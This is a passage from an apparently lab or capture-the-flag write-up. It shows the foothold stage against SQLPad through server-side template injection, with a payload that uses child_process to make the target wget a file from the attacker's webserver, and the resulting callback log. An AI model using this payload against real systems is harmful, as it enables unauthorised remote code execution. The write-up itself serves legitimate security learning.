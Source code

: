 | Username |
| -------- |
| admin    |
| john     |

## Foothold

### Server-Side Template Injection (SSTI)

A quick research on Google brought up an `writeup` for a `bug bounty` on `huntr.com` which described  `Server-Side Template Injection (SSTI)` vulnerability when creating  `MySQL database connection` which lead to `Remote Code Execution (RCE)`.

- [https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb)

We modified the available `Proof of Concept (PoC)` command to our needs and got a `callback` on our `webserver`.

```c
{{ process.mainModule.require('child_process').exec('wget http://10.10.14.132/x') }}
```

![](images/2024-09-07_21-42_80_sqlpad_ssti.png)

```c
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.200.167 - - [07/Sep/2024 21:39:16] code 404, message File not found
10.129.200.167 - - [07/Sep/2024 21:39:16] "GET /x HTTP/1.1" 404 -
```
